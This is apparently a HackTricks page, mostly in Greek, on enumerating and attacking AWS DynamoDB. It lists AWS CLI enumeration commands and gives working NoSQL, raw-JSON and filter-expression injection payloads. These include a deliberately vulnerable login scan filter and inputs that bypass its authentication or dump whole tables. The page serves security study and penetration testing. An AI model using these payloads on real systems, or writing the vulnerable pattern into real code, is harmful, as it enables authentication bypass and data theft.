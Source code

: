 # AWS - DynamoDB Enum

{{#include ../../../banners/hacktricks-training.md}}

## DynamoDB

### Basic Information

Η Amazon DynamoDB παρουσιάζεται από την AWS ως μια **πλήρως διαχειριζόμενη, serverless, βάση δεδομένων NoSQL τύπου key-value**, σχεδιασμένη για την υποστήριξη εφαρμογών υψηλής απόδοσης ανεξαρτήτως μεγέθους. Η υπηρεσία εξασφαλίζει ισχυρές δυνατότητες, συμπεριλαμβανομένων των εγγενών μέτρων ασφαλείας, αδιάλειπτων αντιγράφων ασφαλείας, αυτοματοποιημένης αναπαραγωγής σε πολλές περιοχές, ενσωματωμένης προσωρινής μνήμης και βολικών εργαλείων εξαγωγής δεδομένων.

Στο πλαίσιο της DynamoDB, αντί να δημιουργηθεί μια παραδοσιακή βάση δεδομένων, **δημιουργούνται πίνακες**. Κάθε πίνακας απαιτεί τον καθορισμό ενός **partition key** ως αναπόσπαστο μέρος του **κύριου κλειδιού του πίνακα**. Αυτό το partition key, ουσιαστικά μια **τιμή hash**, παίζει κρίσιμο ρόλο τόσο στην ανάκτηση αντικειμένων όσο και στη διανομή δεδομένων σε διάφορους κόμβους. Αυτή η διανομή είναι καθοριστική για τη διατήρηση τόσο της κλιμάκωσης όσο και της διαθεσιμότητας της βάσης δεδομένων. Επιπλέον, υπάρχει η επιλογή να προστεθεί ένα **sort key** για περαιτέρω βελτίωση της οργάνωσης των δεδομένων.

### Encryption

Από προεπιλογή, η DynamoDB χρησιμοποιεί ένα KMS key που \*\*ανήκει στην Amazon DynamoDB,\*\* ούτε καν το AWS managed key που τουλάχιστον ανήκει στον λογαριασμό σας.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

Είναι δυνατή η **προγραμματισμένη** δημιουργία **αντιγράφων ασφαλείας πίνακα** ή η δημιουργία τους κατόπιν **αιτήματος**. Επιπλέον, είναι επίσης δυνατή η ενεργοποίηση της **Ανάκτησης σε συγκεκριμένο χρόνο (PITR) για έναν πίνακα.** Η ανάκτηση σε συγκεκριμένο χρόνο παρέχει συνεχόμενα **αντίγραφα ασφαλείας** των δεδομένων σας στη DynamoDB για **35 ημέρες** για να σας βοηθήσει να προστατευθείτε από τυχαίες εγγραφές ή διαγραφές.

Είναι επίσης δυνατή η εξαγωγή **των δεδομένων ενός πίνακα σε S3**, αλλά ο πίνακας πρέπει να έχει **ενεργοποιημένο το PITR**.

### GUI

Υπάρχει ένα GUI για τοπικές υπηρεσίες Dynamo όπως [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), κ.λπ., που θα μπορούσε να είναι χρήσιμο: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### Μη Αυθεντικοποιημένη Πρόσβαση

{{#ref}}
../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md
{{#endref}}

### Privilege Escalation

{{#ref}}
../aws-privilege-escalation/aws-dynamodb-privesc.md
{{#endref}}

### Μετά την Εκμετάλλευση

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### Επιμονή

{{#ref}}
../aws-persistence/aws-dynamodb-persistence.md
{{#endref}}

## Εισαγωγή DynamoDB

### SQL Εισαγωγή

Υπάρχουν τρόποι πρόσβασης στα δεδομένα του DynamoDB με **SQL σύνταξη**, επομένως, είναι επίσης δυνατές οι τυπικές **SQL εισαγωγές**.

{{#ref}}
https://book.hacktricks.xyz/pentesting-web/sql-injection
{{#endref}}

### NoSQL Εισαγωγή

Στο DynamoDB μπορούν να χρησιμοποιηθούν διαφορετικές **συνθήκες** για την ανάκτηση δεδομένων, όπως σε μια κοινή NoSQL εισαγωγή. Αν είναι δυνατό να **αλυσιδωθούν περισσότερες συνθήκες για την ανάκτηση** δεδομένων, θα μπορούσατε να αποκτήσετε κρυφά δεδομένα (ή να εξάγετε ολόκληρο τον πίνακα).\
Μπορείτε να βρείτε εδώ τις υποστηριζόμενες συνθήκες από το DynamoDB: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html)

Σημειώστε ότι υποστηρίζονται **διαφορετικές συνθήκες** αν τα δεδομένα προσπελάζονται μέσω **`query`** ή μέσω **`scan`**.

> [!NOTE]
> Στην πραγματικότητα, οι ενέργειες **Query** χρειάζονται να καθορίσουν τη **συνθήκη "EQ" (ίσο)** στο **κύριο** κλειδί για να λειτουργήσουν, καθιστώντας το πολύ **λιγότερο επιρρεπές σε NoSQL εισαγωγές** (και επίσης περιορίζοντας πολύ τη λειτουργία).

Αν μπορείτε να **αλλάξετε τη σύγκριση** που εκτελείται ή να προσθέσετε νέες, θα μπορούσατε να ανακτήσετε περισσότερα δεδομένα.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{{#ref}}
https://book.hacktricks.xyz/pentesting-web/nosql-injection
{{#endref}}

### Raw Json injection

> [!CAUTION]
> **Αυτή η ευπάθεια βασίζεται στο dynamodb Scan Filter το οποίο είναι πλέον απαρχαιωμένο!**

**DynamoDB** δέχεται **Json** αντικείμενα για **αναζήτηση** δεδομένων μέσα στη βάση δεδομένων. Αν διαπιστώσετε ότι μπορείτε να γράψετε στο json αντικείμενο που αποστέλλεται για αναζήτηση, θα μπορούσατε να κάνετε dump της βάσης δεδομένων, όλων των περιεχομένων.

Για παράδειγμα, εισάγοντας σε ένα αίτημα όπως:
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
ένας επιτιθέμενος θα μπορούσε να εισάγει κάτι σαν:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

διορθώστε την κατάσταση "EQ" αναζητώντας το ID 1000 και στη συνέχεια αναζητώντας όλα τα δεδομένα με μια συμβολοσειρά Id μεγαλύτερη από 0, που είναι όλα.

Ένα άλλο **ευάλωτο παράδειγμα χρησιμοποιώντας μια σύνδεση** θα μπορούσε να είναι:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
Αυτό θα ήταν ευάλωτο σε:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

Ορισμένα SDK επιτρέπουν τη χρήση μιας συμβολοσειράς που υποδεικνύει τη φιλτράρισμα που θα εκτελεστεί όπως:
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
Πρέπει να γνωρίζετε ότι η αναζήτηση στο DynamoDB για **υποκατάσταση** μιας **τιμής** χαρακτηριστικού σε **εκφράσεις φίλτρου** κατά την σάρωση των στοιχείων, οι τόκενς θα πρέπει να **ξεκινούν** με τον χαρακτήρα **`:`**. Τέτοιοι τόκενς θα **αντικατασταθούν** με την πραγματική **τιμή χαρακτηριστικού κατά την εκτέλεση**.

Επομένως, μια σύνδεση όπως η προηγούμενη μπορεί να παρακαμφθεί με κάτι σαν:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{{#include ../../../banners/hacktricks-training.md}}
